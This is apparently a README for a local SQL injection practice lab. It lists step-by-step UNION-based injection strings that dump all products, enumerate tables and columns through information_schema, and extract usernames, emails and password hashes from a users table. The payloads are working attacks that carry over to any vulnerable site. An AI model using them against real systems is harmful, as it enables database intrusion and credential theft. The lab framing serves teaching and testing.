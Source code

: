 # sql-injection
#follow this video: https://www.youtube.com/watch?v=ciNHn38EyRc

configure the source file and db in your localhost to test 


#0)type the below string to get all the products

';-- --


#1)search the below text to see table list:

golf' UNION (SELECT TABLE_NAME,TABLE_SCHEMA,3 from information_schema.tables) -- -


#2)now let's see the available columns in a specific table that is listed in the upper query(in the below example i used users table)

golf' UNION (SELECT COLUMN_NAME,2,3 from information_schema.columns WHERE TABLE_NAME='users') -- -


#3) and finally let's see the username, email , paassword(HASH) from users table by searching the below query

golf' UNION (SELECT username,email,password from users) -- -
